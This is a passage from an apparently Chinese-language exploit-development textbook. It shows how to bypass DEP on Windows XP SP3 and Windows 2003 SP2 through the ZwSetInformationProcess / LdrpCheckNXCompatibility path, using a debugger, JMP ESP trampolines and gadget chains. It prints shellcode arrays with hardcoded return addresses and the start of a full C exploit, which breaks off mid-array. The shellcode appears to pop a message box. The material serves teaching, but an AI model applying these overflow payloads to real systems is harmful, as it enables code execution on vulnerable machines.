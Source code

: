 我们依然在 0x7C93CD6F 处中断程序，注意千万不要在程序刚加载完就在 0x7C93CD6F 下 断点，不然您会被中断到崩溃。我们建议您先在 0x7C95683B 处，即 CALL ZwSetInformationProcess 时下断点，然后单步运行到 0x7C93CD6F，堆栈情况如图 12.3.11 所示。

<img src="images/09/增大ESP后关闭dep返回时堆栈状态.png">


可以看到，增大 ESP 之后我们的关键数据都没有被破坏。执行完 RETN 0x04 后 ESP 将指 向 0x0012FEC4，所以我们只要在 0x0012FEBC 放置一条 JMP ESP 指令就可让程序转入堆栈执 行指令了。大家可以通过 OllyFindAddr 插件中的 Overflow return address→Find CALL/JMP ESP 来搜索符合要求的指令，部分搜索结果如图 12.3.12 所示。 

<img src="images/09/calljmpesp部分搜索结果.png">

本次实验我们选择 0x7DC5C1B4 处的 JMP ESP，然后我在 0x0012FEC4 处放置一个长跳指 令，让程序跳转到 shellcode 的起始位置来执行 shellcode，根据图 12.3.11 中的内存状态，可以 计算出 0x0012FEC4 距离 shellcode 起始位置有 200 个字节，所以跳转指令需要回调 205 个字节 （200+5 字节跳转指令长度）。分析结束，我们开始布置 shellcode，shellcode 布局如图 12.3.13 所示。 

<img src="images/09/windowsxpsp3下关闭dep的shellcode布局.png">


代码如下所示。 
```c++
charshellcode[]= "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 

"……" "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90" \
"\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址 
"\x85\x8B\x1D\x5D" //修正 EBP 
"\x19\x4A\x97\x7C" //增大 ESP 
"\xB4\xC1\xC5\x7D" //jmp esp 
"\x24\xCD\x93\x7C" //关闭 DEP 代码的起始位置 
"\xE9\x33\xFF\xFF" //回跳指令 
"\xFF\x90\x90\x90" 
```

按照图 12.3.13 中布局布置好 shellcode 后将程序重新编译，用 OllyDbg 加载程序，我们建 议您在 0x7C93CD6F 处下断点，待程序中断后，我们按 F8 键单步运行程序，并注意各指令对 堆栈及程序流程的影响，理解这种 shellcode 的布置思路。执行完 JMP ESP 后就可以看到程序 转入 shellcode，如图 12.3.14 所示。 

<img src="images/09/成功转入shellcode.png">

继续运行程序就可以看到熟悉的对话框。 

补充一点，微软在 Windows 2003 SP2 以后对 LdrpCheckNXCompatibility 函数进行了少许 修改，对我们影响大的是该函数在执行过程中会对 ESI 指向的内存附近进行操作，如图 12.3.16 所示。 这就要保证 ESI 指向的内存为可写内存，前边我们已经介绍过了调整 EBP 的方法，大家可以利用类似的指令如 ```push esp pop esi retn``` 来调整 ESI，这些指令显示在 OllyFindAddr 插件中 Disable DEP→Disable DEP >=2003 SP2 搜索结果的 step4 部分。 

但这些指令不是很好找到的，这里介绍一种变通的方法。 
- （1）找到 pop eax retn 指令，并让程序转入该位置执行。 
- （2）找到一条 pop esi retn 的指令，并保证在执行（1）中 pop eax 时它的地址位于栈顶，这样就可以把该地址放到 eax 中。 
- （3）找到 push esp jmp eax 指令，并转入执行。 这样就相当于执行了 push esp pop esi retn，esi 被指到了可写位置。

下边我们给出一种可以 在 Windows 2003 SP2 下边成功溢出的代码，大家可以自行调试，感受一下跳板执行选取和 shellcode 布局的思路。代码运行环境为 Windows 2003 SP2 中文版，代码中的各跳板地址可能 需要重新调试。 

```c++

#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h> 

charshellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
```